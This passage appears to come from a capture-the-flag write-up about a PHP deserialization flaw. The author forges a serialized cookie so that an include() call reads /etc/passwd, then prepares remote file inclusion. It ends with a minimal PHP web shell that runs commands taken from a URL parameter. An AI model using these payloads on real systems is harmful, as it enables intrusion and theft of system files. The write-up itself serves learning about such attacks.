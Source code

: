```php
echo base64_encode(serialize(new User('admin')));
?>
```
After I ran this code I got a base64 encoded string and some error.

![](images/serial/error.png)

Now if we focus on the error it says that the file to be included couldn't be found. DAMN!!!!!!
This is when it clicked the `log.class.php` is using `include()` to include a file. So If we can give it a file path says `/etc/passwd` and then generate the cookie and use that cookie it should include that file, showing us the content of it(I guess).

So I edited the `log.class.php` by editing the following line

* `private $type_log;` to `private $type_log = "/etc/passwd";`

![](images/serial/final-cook.png)

I used that cookie and BOOM!!! 💥💥💥💥💥

![](images/serial/lfi.png)

Now we can use RFI to exploit this. First we can run a python server that will have a file containing a shell and then we can include that.

I made a file name `shell` having the following content

```php
<? php
system($_GET['cmd']);
?>
```
